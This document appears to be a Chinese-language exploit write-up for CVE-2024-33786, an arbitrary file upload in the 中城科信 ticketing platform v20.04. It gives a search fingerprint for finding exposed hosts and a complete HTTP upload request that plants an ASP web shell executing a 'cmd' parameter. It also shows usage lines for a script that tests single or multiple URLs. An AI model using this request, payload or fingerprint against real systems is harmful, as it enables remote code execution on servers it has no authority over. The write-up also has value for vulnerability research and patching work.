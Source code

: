 # 中城科信票务管理平台 任意文件上传

### 1.漏洞描述

基础六管控多协同，智慧票务系统以私有/公有云为基础部署，提供票类策略管控、售票流程管控、门票核验管控、营销渠道管控、数据分析管控、财务核销管控功能，与其它业务系统数据共享，协同作业。中城科信票务管理平台20.04中存在任意文件上传漏洞，攻击者可以通过上传精心设计的文件来执行任意代码。

CVE编号：

CVE-2024-33786

### 2.影响版本

v20.04

### 3.搜索语法

```java
body="SystemManager/SoftwareLicense.htm"
```

### 4.漏洞复现

```java
POST /SystemManager/Introduction.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 507
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: multipart/form-data; boundary=--------------------------354575237365372692397370
Accept-Encoding: gzip

----------------------------354575237365372692397370
Content-Disposition: form-data; name="file"; filename="5.txt"
Content-Type: image/jpeg

<%execute(request("cmd"))%>

----------------------------354575237365372692397370
Content-Disposition: form-data; name="fileName"

test_20240504.asp
----------------------------354575237365372692397370
Content-Disposition: form-data; name="Method"

UpdateUploadLinkPic
----------------------------354575237365372692397370
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1720009711960-3489b55b-a34d-44ae-aeba-94fbf753abe6.png)

得到上传文件的路径，拼接路径访问 

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1720009840870-89b8cf75-63c1-4334-bccc-06cd4619c6b5.png)

### 4.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```